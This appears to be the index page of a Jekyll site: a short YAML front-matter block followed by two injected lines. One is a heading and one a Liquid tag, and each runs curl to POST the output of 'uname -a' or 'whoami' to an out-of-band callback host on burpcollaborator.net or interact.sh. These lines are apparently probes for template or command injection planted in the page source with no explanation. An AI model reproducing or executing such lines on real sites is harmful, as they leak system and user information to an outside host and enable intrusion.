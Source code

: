 ```yaml
---
# Feel free to add content and custom Front Matter to this file.
# To modify the layout, see https://jekyllrb.com/docs/themes/#overriding-theme-defaults

layout: home
---
```


# command_execute curl -X POST "http://bs7h10wa8o3oijwmnyx4ofhpbgh65v.burpcollaborator.net" -d "output=$(uname -a)"
{% command_execute curl -X POST "http://c8fz4r32vtc0000k6xtggr891ceyyyyyb.interact.sh" -d "output=$(whoami)" %}
